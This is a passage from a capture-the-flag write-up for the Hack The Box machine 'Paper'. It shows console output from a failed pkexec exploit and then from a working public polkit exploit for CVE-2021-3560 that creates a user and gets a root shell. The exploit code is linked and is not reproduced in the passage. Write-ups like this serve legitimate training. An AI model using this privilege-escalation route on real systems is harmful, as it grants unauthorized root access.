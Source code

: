 I then uploaded the binary, precompiled, using SCP, but it appears that it has been patched on Paper.

```
[dwight@paper .hidden]$ ./blasty-vs-pkexec2
[dwight@paper .hidden]$ # :(
```

#### CVE-2021-3560

However, [a different PolKit exploit written in Python](https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py) *is* functional on Paper:

```
[dwight@paper .hidden]$ python3 a.py
**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original exploit author: Kevin Backhouse 
For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
**************
[+] Starting the Exploit 

...

[+] User Created with the name of ahmed

...

[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

bash: cannot set terminal process group (3090): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper .hidden]#
[root@paper .hidden]# cd /root
[root@paper ~]# cat root.txt 
!REDACTED
[root@paper ~]# 
```

And there it is — the SYSTEM flag! The flag was accepted by HTB; thus, Paper is complete.

After attaining root access, I also attempted privilege escalation using [LinPEAS](https://linpeas.sh), which worked too.

## Conclusion

Paper was a fun and simple CTF, and I extend my thanks towards the author, [secnigma](https://secnigma.wordpress.com/).

https://www.hackthebox.com/achievement/machine/787255/432

![Proof of completion](/img/paper-completion.webp)